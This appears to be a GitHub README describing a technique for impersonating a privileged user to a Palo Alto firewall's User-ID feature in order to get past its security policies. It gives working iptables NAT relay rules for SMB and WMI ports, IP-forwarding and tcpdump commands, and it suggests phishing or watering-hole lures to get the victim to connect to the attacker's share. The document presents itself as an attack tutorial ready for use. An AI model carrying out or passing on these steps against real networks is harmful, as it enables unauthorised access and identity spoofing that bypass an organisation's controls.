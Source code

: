 # IMU
Acquiring another identity to get through Palo Alto User-ID security policies.

If you are unable to access certain websites because they are restricted to a limited class of user then you can use this technique to gain access.  The steps described here allow an attacking Linux machine to impersonate another user's identity and trick a Palo Alto firewall into granting you access through a security policy.  The user's password is never recovered in this example; the method relies completely on relaying Windows protocols (WMI RPC and NetBIOS probes).

**The following diagram can be used to understand the scenario**<br />
![alt text](https://github.com/billchaison/IMU/blob/master/uidv.png)

**It is assumed that you have already accomplished the following**<br />
* Identified a privileged user (B).  You do not need to know the IP address of his machine at this point.
* Have network access from your attacking Linux machine (C).  The interface in this example is eth0.
* Know the IP address of a domain controller (D).

**Stage the attack**<br />
Enable routing on (C).<br />
`echo 1 > /proc/sys/net/ipv4/conf/eth0/forwarding`<br />
`echo 1 > /proc/sys/net/ipv4/ip_forward`

Configure relay on (C) to get an authentication event on (D).  First ensure that you do not have ports 135 and 445 listening on your attacking Linux machine.<br />
`iptables -t nat -A POSTROUTING -t nat -j MASQUERADE`<br />
`iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 445 -j DNAT --to-destination 10.0.111.10`

Start tcpdump on (C) to record the IP address of the machine (B) that VPRISKY is logged in to.<br />
`tcpdump -nn -vv -i eth0 port 445`

By some means (phishing, watering hole attack, ... whatever) get VPRISKY to visit a CIFS share on (C).  The request will be relayed to (D).<br />
`\\10.30.66.77\SYSVOL`<br />
The share name does not have to be valid on (D).  If it is not a valid share name the authentication will still take place but an access denied error will be returned to (B).

Once VPRISKY has relayed SMB traffic through (C) to (D) and you have observed the IP address for (B) then you need to stop tcpdump, tear down the iptables NAT rules and add the following new NAT rules.  The new rules will ensure that WMI and SMB probes coming from the management interface IP on (A) to your attacking machine (C) will be relayed to (B).  This leads the firewall (A) to think that VPRISKY is logged in to (C).<br />
`iptables -F -t nat`<br />
`iptables -t nat -A POSTROUTING -t nat -j MASQUERADE`<br />
`iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 135 -j DNAT --to-destination 10.20.101.141`<br />
`iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 445 -j DNAT --to-destination 10.20.101.141`

You may wish to monitor WMI and SMB packets on eth0 coming from the firewall's management IP address (A).<br />
`tcpdump -nn -vv -i eth0 port 135 or port 445`<br />
If you don't already know the IP address of the Palo Alto's management interface, now you do ... have fun with that.

**Accessing the internet**<br />
At this point the IP address of your attacking machine (C) appears to be used by VPRISKY.  The traffic monitor logs on (A) will show traffic from 10.30.66.77 as coming from CORP\VPRISKY.
